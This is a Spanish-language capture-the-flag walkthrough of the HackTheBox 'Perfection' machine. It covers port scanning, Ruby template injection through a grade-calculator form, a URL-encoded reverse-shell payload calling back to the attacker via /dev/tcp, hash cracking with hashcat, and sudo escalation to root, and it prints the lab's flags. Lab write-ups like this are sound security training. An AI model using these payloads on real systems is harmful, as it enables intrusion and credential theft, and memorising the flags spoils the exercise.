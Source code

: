 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Perfection HackTheBox

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-10 09:05 EDT
Nmap scan report for 10.10.11.253
Host is up (0.037s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (96%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   43.37 ms 10.10.14.1
2   43.43 ms 10.10.11.253

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.23 seconds
```

### Puerto 80

Vamos a `/weighted-grade/`...

Una vez sabemos que Ruby es vulnerable a codigos de inyeccion, abrimos BurpSuit capturamos la peticion ingresando en la tabla donde hay que colocar numero que llegue hasta 100 para que funcione y en la de texto lo que sea...

```
Category 	Grade 	Weight (%)
a			0			100
a			0			0
a			0			0
a			0			0
a			0			0
```

Una vez que capturemos con el BurpSuit esa peticion, modificaremos la seccion de `Category` para ahi inyectar codigo de Ruby

El codigo a pelo no te va a dejar `<%= 7 * 7 %>` por lo que lo codificamos en URL pero haciendonos una Reverse Shell de la siguiente manera...

```shell
<%= IO.popen('bash -c "sh -i >& /dev/tcp/<IP>/<PORT> 0>&1"').readlines()  %>
```

```shell
%3c%25%3d%20%49%4f%2e%70%6f%70%65%6e%28%27%62%61%73%68%20%2d%63%20%22%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%38%30%2f%37%37%37%37%20%30%3e%26%31%22%27%29%2e%72%65%61%64%6c%69%6e%65%73%28%29%20%20%25%3e%0a
```

Pero si lo metemos ahi directamente no ira, por lo que al principio y al final le añadimos algo de texto...

```shell
test%3c%25%3d%20%49%4f%2e%70%6f%70%65%6e%28%27%62%61%73%68%20%2d%63%20%22%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%38%30%2f%37%37%37%37%20%30%3e%26%31%22%27%29%2e%72%65%61%64%6c%69%6e%65%73%28%29%20%20%25%3e%0atest
```

Y esto si funcionaria...

Info:

```
POST /weighted-grade-calc HTTP/1.1

Host: 10.10.11.253

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 410

Origin: http://10.10.11.253

Connection: close

Referer: http://10.10.11.253/weighted-grade-calc

Upgrade-Insecure-Requests: 1



category1=test%3c%25%3d%20%49%4f%2e%70%6f%70%65%6e%28%27%62%61%73%68%20%2d%63%20%22%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%38%30%2f%37%37%37%37%20%30%3e%26%31%22%27%29%2e%72%65%61%64%6c%69%6e%65%73%28%29%20%20%25%3e%0atest&grade1=0&weight1=100&category2=aa&grade2=0&weight2=0&category3=a&grade3=0&weight3=0&category4=a&grade4=0&weight4=0&category5=a&grade5=0&weight5=0
```

Una vez echo esto, tendriamos una shell con el usuario `susan` la sanitizamos...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Ahora leemos la flag en la home de este usuario...

> user.txt (flag1)

```
2368118f5426a880d7918d5a522156f7
```

Si nos vamos a `Migration` y leemos el .db llamado `pupilpath_credentials.db`...

```
��^�ableusersusersCREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
a�\
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```

Nos aparece lo que parece ser la contraseña de `susan`

```
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```

Si ponemos el siguiente comando...

```shell
find / -name susan -type f 2>/dev/null | grep -v "proc/*" | grep -v "sys/*"
```

Nos mostrara lo siguiente...

```
/var/mail/susan
```

Y si leemos eso nos muestra...

```
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

Por lo que para Deshashear ese hash que encontramos con estas pistas haremos lo siguiente...

```
hashcat -m  1400 -a 3 hash susan_nasus_?d?d?d?d?d?d?d?d?d
```

Info:

```
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
```

```
Password = susan_nasus_413759210
```

Si hacemos `sudo -l` veremos que tenemos todos los permisos como `root` por lo que hacemos lo siguiente...

```shell
sudo su
```

Y ya seriamos `root` por lo que vamos a `/root/` y leemos la flag...

> root.txt (flag2)

```
4a918b542b359a8bb20666a315217f39
```
